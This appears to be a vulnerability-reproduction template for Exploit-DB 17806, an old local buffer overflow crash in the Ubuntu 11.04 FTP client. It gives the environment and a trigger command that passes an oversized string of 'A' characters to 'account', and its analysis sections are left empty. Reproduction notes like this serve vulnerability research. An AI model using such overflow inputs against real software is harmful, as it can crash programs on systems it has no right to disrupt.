 # EDB-17806

## Experiment Environment

Ubuntu 11.04

## INSTALL & Configuration

Preinstalled environment

```
ii  ftp                                   0.17-23
The FTP client
```

## Problems in Installation & Configuration


## How to trigger vulnerability

```
ftp localhost
## login in with normal user
ftp> account AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

## PoCs

[FTP Client (Ubuntu 11.04) - Local Buffer Overflow Crash (PoC)](https://www.exploit-db.com/exploits/17806/)

## Vulnerability Details & Patch

### Root Cause

### Stack Trace

## References
